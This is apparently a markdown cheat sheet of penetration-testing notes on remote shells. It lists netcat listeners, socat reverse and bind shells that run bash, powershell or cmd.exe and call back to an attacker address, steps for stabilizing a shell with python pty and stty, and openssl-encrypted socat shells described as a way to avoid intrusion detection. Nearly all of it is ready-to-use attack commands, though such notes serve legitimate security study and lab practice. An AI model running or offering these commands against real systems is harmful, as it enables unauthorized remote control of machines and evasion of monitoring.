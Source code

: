 ###### Reverse Shells
The syntax for starting a netcat listener using Linux is this:
`nc -lvnp <port-number>`
- `-l` tells netcat there's a listener
- `-v` verbose output
- `-n` disables dns resolution (does not resolve host names)
- `-p` port specification

example: `nc -lvnp 4444` 

if you want to use a port-number below 1024, `sudo` is needed. 

###### Bind Shells
If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:
`nc <target-ip> <chosen-port>`

Here we are using netcat to make an outbound connection to the target on our chosen port.


#### Stabilization

1. `python -c 'import pty;pty.spawn("/bin/bash")'` 
2. `export TERM=xterm`
3. we will background the shell using Ctrl + Z, then use `stty raw -echo; fg` in our own terminal, which turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys,and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.


### SoCat

>Similar to netcat in some ways, but fundamentally different in many others.

**Reverse Shell**:
- Rev Shell Listener: `socat TCP-L:<port> -`
- Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
- Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind Shell**:
- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
- Rev Shell Listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**Other:**
- Fully Stable Linux Shell: ``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

**Encrypted Shells**:
Avoid IDS and spying on the shell by encrypting!
- Generate Certificate: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
- Merge into a single .pem file: `cat shell.key shell.crt > shell.pem`
- Reverse shell listener: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
- To connect back we use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
Same technique applies for bind shell:
- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
